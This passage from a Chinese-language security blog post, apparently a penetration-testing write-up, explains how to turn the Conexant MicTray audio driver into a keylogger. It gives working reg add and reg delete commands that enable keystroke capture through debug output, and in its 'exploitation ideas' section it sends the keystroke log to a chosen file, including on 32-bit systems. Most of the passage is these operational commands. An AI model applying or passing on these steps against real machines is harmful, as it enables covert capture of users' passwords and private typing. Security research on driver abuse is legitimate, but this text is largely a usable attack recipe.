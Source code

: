 ![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2018-10-1/2-2.png)

DbgView输出如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2018-10-1/2-3.png)

尝试解决错误，添加注册表项：

```
reg add hklm\SOFTWARE\Conexant\MicTray\Hotkey /v HotKeyMicScancode /t REG_DWORD /d 1
reg add hklm\SOFTWARE\Conexant\MicTray\Hotkey /v HotKeySpkScancode /t REG_DWORD /d 1
reg add hklm\SOFTWARE\Conexant\MicTray\Hotkey /v PlaybackGPIO /t REG_DWORD /d 1
reg add hklm\SOFTWARE\Conexant\MicTray\Hotkey /v CaptureGPIO /t REG_DWORD /d 1
```

**注：**

MicTray64.exe运行后会自动在注册表`hkcu\SOFTWARE\Conexant`添加配置信息

经测试，还需要清除注册表中的配置信息，否则DbgView无法获得键盘记录

清除配置信息：

```
reg delete hkcu\SOFTWARE\Conexant /f 
```

重新启动MicTray64.exe，成功获得键盘记录消息，如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2018-10-1/2-4.png)

综上，记录方法2（通过OutputDebugString()输出）的触发条件如下：

- 不存在注册表项hkcu\SOFTWARE\Conexant
- 配置以下注册表项：
	reg add hklm\SOFTWARE\Conexant\MicTray\Hotkey /v CustomSettings /t REG_DWORD /d 1
	reg add hklm\SOFTWARE\Conexant\MicTray\Hotkey /v HotKeyMicScancode /t REG_DWORD /d 1
	reg add hklm\SOFTWARE\Conexant\MicTray\Hotkey /v HotKeySpkScancode /t REG_DWORD /d 1
	reg add hklm\SOFTWARE\Conexant\MicTray\Hotkey /v PlaybackGPIO /t REG_DWORD /d 1
	reg add hklm\SOFTWARE\Conexant\MicTray\Hotkey /v CaptureGPIO /t REG_DWORD /d 1

## 0x04 利用思路
---

站在渗透测试的角度，分析可供利用的思路

通过修改注册表可以修改记录文件的保存位置：

```
reg add hkcu\SOFTWARE\Conexant\MicTray64.exe /v LogName /t REG_SZ /d "C:\test\log.txt"
```

### 1、针对32位系统的键盘记录

配置命令如下：

```
reg add hkcu\SOFTWARE\Conexant\MicTray.exe /v LogName /t REG_SZ /d "C:\test\log.txt"
reg add hklm\SOFTWARE\Conexant\MicTray\Hotkey /v CustomSettings /t REG_DWORD /d 1
```
